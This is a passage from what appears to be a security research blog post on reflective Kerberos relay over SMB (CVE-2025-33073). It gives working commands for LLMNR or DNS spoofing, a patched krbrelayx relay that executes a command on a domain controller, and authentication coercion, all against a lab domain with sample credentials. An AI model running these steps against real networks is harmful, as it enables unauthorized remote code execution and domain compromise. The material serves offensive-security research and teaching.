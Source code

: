 So far, some patches have prevented reflective NTLM relay. However, reflective NTLM/Kerberos relay was possible until June 2025, when it was fixed as CVE-2025-33073. The vulnerability is based on the trick of Kerberos relay over SMB. The details are described in ["NTLM reflection is dead, long live NTLM reflection! – An in-depth analysis of CVE-2025-33073"](https://www.synacktiv.com/en/publications/ntlm-reflection-is-dead-long-live-ntlm-reflection-an-in-depth-analysis-of-cve-2025) by Synacktiv. We simply need to coerce authentication to a crafted hostname that confuses SMB clients.

Note that krbrelayx.py needs to be patched as described in the white paper ["Reflective Kerberos Relay Attack"](https://www.redteam-pentesting.de/publications/2025-06-11-Reflective-Kerberos-Relay-Attack_RedTeam-Pentesting.pdf).
```sh
# Use LLMNR
sudo ./pretender -i ens33 --no-dhcp-dns --no-timestamps --spoof '*1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA*' -4 <attacker ip>
# or add a DNS record
python3 dnstool.py -u kawakatz.local\\coward -p 'P@ssw0rd' -r dc11UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA -d <attacker ip> -a add <dc ip>

# Reflective Kerberos relay over SMB to SMB
sudo python3 krbrelayx.py -t smb://dc1.kawakatz.local -c 'whoami'
coercer coerce -u coward -p 'P@ssw0rd' -d kawakatz.local -t dc1.kawakatz.local -l dc11UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA
```
<div style="text-align: center; margin: 20px 0;">
  <img src="/assets/img/20251029/33.png" width="800" style="border: 1px solid black;" alt=""/>
  <div style="font-style: italic; color: #666; margin-top: 0px;">Coercing Kerberos authentication over SMB</div>
</div>
<div style="text-align: center; margin: 20px 0;">
  <img src="/assets/img/20251029/32.png" width="800" style="border: 1px solid black;" alt=""/>
  <div style="font-style: italic; color: #666; margin-top: 0px;">LLMNR spoofing</div>
</div>
<div style="text-align: center; margin: 20px 0;">